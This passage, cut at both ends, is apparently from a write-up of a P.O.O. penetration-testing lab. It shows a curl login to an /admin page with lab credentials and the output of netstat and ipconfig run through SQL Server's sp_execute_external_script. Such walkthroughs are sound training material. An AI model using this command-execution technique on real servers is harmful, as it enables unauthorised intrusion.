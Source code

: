     
    
    root@kali# curl -s http://administrator:EverybodyWantsToWorkAtP.O.O.@10.13.38.11/admin/
    "I can't go back to yesterday, because i was a different person then..."<br>
    - Alice in Wonderland<br>
    <br>
    Flag : POO{4882bd2c************************}
    

## Foothold

The first time I solved P.O.O., I actually missed the IPv6 / WinRM route below
that I believe is the intended route, and only later did it occur to me that
the creds for `/admin` might be a local account. Once I figured that out, I
switched over to using the administrator account to finish the lab. I’ll show
my long way in Beyond Root.

### Local Enumeration

It took a while looking around to put the pieces together. First, the host is
listening on WinRM, TCP 5985, both IPv4 and IPv6:

    
    
    SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("netstat -ano");';                        
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
    
    Active Connections
      Proto  Local Address          Foreign Address        State           PID 
      TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       920
      TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       4372
      TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
    ...[snip]...
      TCP    [::]:80                [::]:0                 LISTENING       4
      TCP    [::]:135               [::]:0                 LISTENING       920
      TCP    [::]:445               [::]:0                 LISTENING       4
      TCP    [::]:1433              [::]:0                 LISTENING       4372
      TCP    [::]:5985              [::]:0                 LISTENING       4
    ...[snip]...
    

The original `nmap` did not show 5985 listening, which was an IPv4 scan. But I
haven’t checked IPv6.

To check further into this, I need the IPv6 address of the host, which I can
get from `ipconfig`:

    
    
    SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("ipconfig");';
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
    
    Windows IP Configuration
    